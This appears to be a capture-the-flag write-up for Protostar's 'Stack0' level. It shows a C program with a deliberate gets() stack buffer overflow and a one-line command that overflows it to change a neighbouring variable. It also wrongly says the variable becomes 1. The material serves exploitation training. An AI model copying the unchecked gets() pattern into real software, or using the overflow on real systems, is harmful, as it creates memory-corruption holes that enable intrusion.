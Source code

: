 # Stack0

## Description

This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

This level is at `/opt/protostar/bin/stack0`

## Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

## Approach

The `volatile` keyword tells the compiler that the value of the variable may change at any time as a result of external conditions, not only as a result of program control flow and The `gets()` is a function which reads the STDIN from user and stores the value into buffer and It doesn't check if the buffer is overuns.

For more checkout the Linux Programmer's Manual (BUGS):

```bash
man 3 gets
```

## Exploitation

So, This program already assigned with buffer space of 64 bytes. If We pass more than 64 bytes into the buffer space, the variable should be `modified = 1` and print the statement.

```bash
python -c 'print "A"*70' | ./stack0
```
